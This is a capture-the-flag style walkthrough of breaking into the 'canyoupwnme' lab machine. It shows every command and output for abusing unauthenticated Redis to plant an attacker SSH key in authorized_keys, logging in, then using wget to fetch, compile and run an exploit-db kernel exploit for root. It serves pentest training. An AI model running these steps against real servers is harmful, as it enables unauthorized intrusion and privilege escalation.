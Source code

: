 # Redis

By exploiting the Redis' vulnerability presented by antirez in
[his blog post](http://antirez.com/news/96), we'll try to get access to the
target machine.

## Port scanning to identify Redis

Let's try to scan the target machine (`canyoupwnme`) with `nmap`

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    1322/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
    ...
    6379/tcp  open  redis       Redis key-value store
    ...

Seems that Redis is binded on the default port and SSH on custom port 1322.

## Check for Redis AUTH

By using `telnet`, verify if Redis requires authentication

    $ telnet canyoupwnme 6379
    Trying 10.0.100.195...
    Connected to canyoupwnme.pentest.
    Escape character is '^]'.
    echo "You can pwn me!!!"
    $15
    You can pwn me!!!
    quit
    +OK
    Connection closed by foreign host.

Yep! Redis does not require AUTH. Before going ahead, let's get some system
information via Redis `INFO` command

    $ redis-cli -h canyoupwnme
    canyoupwnme:6379> INFO
    # Server
    redis_version:3.0.7
    ...
    os:Linux 3.19.0-25-generic i686
    arch_bits:32
    ...
    gcc_version:4.8.4
    ...
    config_file:/etc/redis/6379.conf
    ...

## Preparing the SSH key

The antirez's attack exploits Redis to upload the SSH pubkey on the target
machine. Let's start by creating a new set of keys that we use to access the
machine.

    $ mkdir ssh-redis
    $ ssh-keygen -f ./ssh-redis/attacker

## Identify the right path on the target machine

By using `redis-cli` tool as oracle, we identify user's home path(s). The idea
is to exploit the `redis-cli` return messages.

    $ redis-cli -h canyoupwnme CONFIG SET dir "/root"
    OK

    $ redis-cli -h canyoupwnme CONFIG SET dir "/xxx/yyy"
    (error) ERR Changing directory: No such file or directory

By using a [usernames wordlist](https://raw.githubusercontent.com/jeanphorn/wordlist/master/usernames.txt)
and a simple [Python script](./scripts/redis-oracle.py) we iterate over all
the usernames in order to check all the paths formed as follows

    /home/<username>/.ssh

After a while, we get the following path

    /home/user/.ssh

## Do the attack

As indicated by antirez, the idea at the base of the attack is to use the
`SAVE` command to overwrite the `authorized_keys` file of the victim. All the
attack's steps are well explained in the antirez's blog.

*   Generating the blob to be injected

        $ echo -e '\n\n' >> blob.txt
        $ cat ssh-redis/attacker.pub >> blob.txt
        $ echo -e '\n\n' >> blob.txt

*   Getting the current Redis' configuration (`dir` is already set due to the
    previous path's identification phase)

        $ redis-cli -h canyoupwnme
        canyoupwnme:6379> CONFIG GET dir
        1) "dir"
        2) "/home/user/.ssh"
        canyoupwnme:6379> CONFIG GET dbfilename
        1) "dbfilename"
        2) "dump.rdb"

*   Update the Redis' configuration

        $ redis-cli -h canyoupwnme
        canyoupwnme:6379> CONFIG SET dbfilename "authorized_keys"
        canyoupwnme:6379> CONFIG GET dir
        1) "dir"
        2) "/home/user/.ssh"
        canyoupwnme:6379> CONFIG GET dbfilename
        1) "dbfilename"
        2) "authorized_keys"

*   Do the attack

        $ # flushing the current Reids' db
        $ redis-cli -h canyoupwnme flushall
        OK
        $ # set the `sshblob` key with the SSH pubkey value
        $ cat blob.txt | redis-cli -h canyoupwnme -x set sshblob
        OK
        $ # save the current db in /home/user/.ssh/authorized_keys file
        $ redis-cli -h canyoupwnme save
        OK

*   Try the SSH login

        $ ssh -l user -i ssh-redis/attacker canyoupwnme -p1322

          G:                ,;
          E#,    :        f#i                        .Gt  t    j.
          E#t  .GE      .E#t                        j#W:  Ej   EW,
          E#t j#K;     i#W,     t      .DD.       ;K#f    E#,  E##j
          E#GK#f      L#D.      EK:   ,WK.      .G#D.     E#t  E###D.
          E##D.     :K#Wfff;    E#t  i#D       j#K;       E#t  E#jG#W;
          E##Wi     i##WLLLLt   E#t j#f      ,K#f   ,GD;  E#t  E#t t##f
          E#jL#D:    .E#L       E#tL#i        j#Wi   E#t  E#t  E#t  :K#E:
          E#t ,K#j     f#E:     E#WW,          .G#D: E#t  E#t  E#KDDDD###i
          E#t   jD      ,WW;    E#K:             ,K#fK#t  E#t  E#f,t#Wi,,,
          j#t            .D#;   ED.                j###t  E#t  E#t  ;#W:
           ,;              tt   t                   .G#t  E#t  DWi   ,KK:
                                                      ;;  ,;.

                                                           by canyoupwn.me

        Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.19.0-25-generic i686)

         * Documentation:  https://help.ubuntu.com/

          System information as of Fri Apr 15 10:50:08 EEST 2016

          System load: 0.0               Memory usage: 3%   Processes:       79
          Usage of /:  32.5% of 6.50GB   Swap usage:   0%   Users logged in: 0

          Graph this data and manage this system at:
            https://landscape.canonical.com/

        151 packages can be updated.
        79 updates are security updates.

        Last login: Thu Apr 14 20:02:53 2016 from kali.pentest
        user@canyoupwnme:~$ whoami
        user
        user@canyoupwnme:~$ pwd
        /home/user

## Getting `root` privileges

We got access in the target machine. Now let's try to get a `root` access. We
already obtained the kernel version with Redis `INFO` command.
Just to be sure...

    $ uname -a
    Linux canyoupwnme 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux

The kernel version is `3.19.0-25-generic` that was built on
`Fri Jul 24 21:18:00 UTC 2015`. After a while, the following exploit seems to
be ok

    https://www.exploit-db.com/exploits/39166

Let's try it...

    $ pwd
    /home/user
    $ id
    uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(sambashare),115(lpadmin)
    $ mkdir tmp
    $ cd tmp
    $ wget https://www.exploit-db.com/download/39166 -O poc.c
    $ gcc poc.c -o poc.bin
    $ ./poc.bin
    # id
    # uid=0(root) gid=1000(user) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(sambashare),115(lpadmin),1000(user)

Got it!
